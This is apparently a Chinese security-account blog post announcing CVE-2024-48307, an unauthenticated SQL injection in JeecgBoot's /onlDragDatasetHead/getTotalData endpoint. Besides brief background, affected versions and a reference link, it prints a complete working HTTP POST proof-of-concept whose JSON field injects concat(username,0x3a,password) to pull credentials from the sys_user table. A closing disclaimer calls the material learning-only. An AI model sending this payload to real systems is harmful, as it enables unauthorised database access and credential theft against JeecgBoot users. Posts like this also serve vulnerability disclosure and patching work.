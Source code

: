#  CVE-2024-48307｜JeecgBoot SQL 注入漏洞（POC）   
alicy  信安百科   2024-11-30 10:00  
  
**0x00 前言**  
  
  
JeecgBoot是一款基于BPM的低代码平台！前后端分离架构 SpringBoot 2.x，SpringCloud，Ant Design&Vue，Mybatis-plus，Shiro，JWT，支持微服务。强大的代码生成器让前后端代码一键生成，实现低代码开发！  
  
  
  
**0x01 漏洞描述**  
  
> JeecgBoot v3.7.1中的/onlDragDatasetHead/getTotalData组件发现存在SQL注入漏洞。攻击者可以无需权限利用jimureport-dashboard-spring-boot-starter-1.8.1-beta.jar查询数据库，导致数据库信息泄露。  
  
> —— ——来源于网络  
  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-48307  
  
  
  
**0x03 影响版本**  
  
  
jimureport-spring-boot-starter.version<=1.8.1  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
```
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 284
{"tableName":"sys_user","compName":"test","condition":{"filter":{}},"config":{"assistValue":[],"assistType":[],"name":[{"fieldName":"concat(username,0x3a,password)","fieldType":"string"},{"fieldName":"id","fieldType":"string"}],"value":[{"fieldName":"id","fieldType":"1"}],"type":[]}}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6upNheIhsia6DicSVsSHht68FGbO9WfGR4wCmmPTlBNXqllkKib81anXibtbNc0HJiaU59LichTh1yqicwaqg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://github.com/jeecgboot/JeecgBoot/issues/7237  
  
  
  
  
推荐阅读：  
  
  
[N/A｜Jeecg commonController 文件上传漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485251&idx=3&sn=5f20e1d3e3fb8091bb9f2e6a2c8df503&scene=21#wechat_redirect)  
  
  
  
[CVE-2023-49442｜Jeecg远程代码执行漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484831&idx=3&sn=b43df5e2ae8940030744688ba471d6a8&scene=21#wechat_redirect)  
  
  
  
[Jeecg-boot JDBC任意代码执行漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484447&idx=1&sn=2d4efae553a088816f93bf535a9453ca&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
